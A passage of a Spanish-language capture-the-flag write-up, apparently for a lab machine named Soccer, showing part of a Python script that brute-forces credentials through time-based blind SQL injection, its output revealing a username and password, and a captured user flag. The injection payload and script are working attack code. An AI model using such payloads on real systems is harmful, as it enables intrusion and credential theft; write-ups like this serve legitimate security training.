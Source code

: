 ```python
        if fin - inicio >= 4:
            response = True
            global info
            global let
            info += let
            p2.status(info)
        return response

def peticion(request):
    response= asyncio.get_event_loop().run_until_complete(send_request(request))
    return response

if __name__ == "__main__":

    p1 = log.progress("SQLI")
    p1.status("Iniciando ataque de fuerza bruta")

    p2 = log.progress("Info: ")
    time.sleep(2)
    for position in range(1,200):
        for letter in letters:
            let = letter
            payload = f"or if(ord(substr((select group_concat(username,0x3a,password) from accounts),{position},1))=ord(\'{letter}\'),sleep(4),1)"
            request = "{\"id\":\"1 "+payload+"\"}"
            p1.status(request)
            response = peticion(request)
            if response:
                break
```

Ejecutamos el script:

```bash
python3 tables.py 
[ ] SQLI: {"id":"1 or if(substr((select group_concat(username,0x3a,password) from accounts),35,1)='c',sleep(2),1)"}
[\] Info: : player:PlayerOftheMatch2022
```

Y encontraremos las credenciales ***player:PlayerOftheMatch2022***

### user.txt

Nos podemos conectar a través de ***SSH***, o bien a través de la consola ganada anteriormente como *www-data*. En el ***homedir*** de *player* encontraremos la primera *flag*:

```bash
player@soccer:~$ cat user.txt 
acf4b8ef3efeabcc450fa51ae116bdcf
```
#  Consiguiendo shell como root
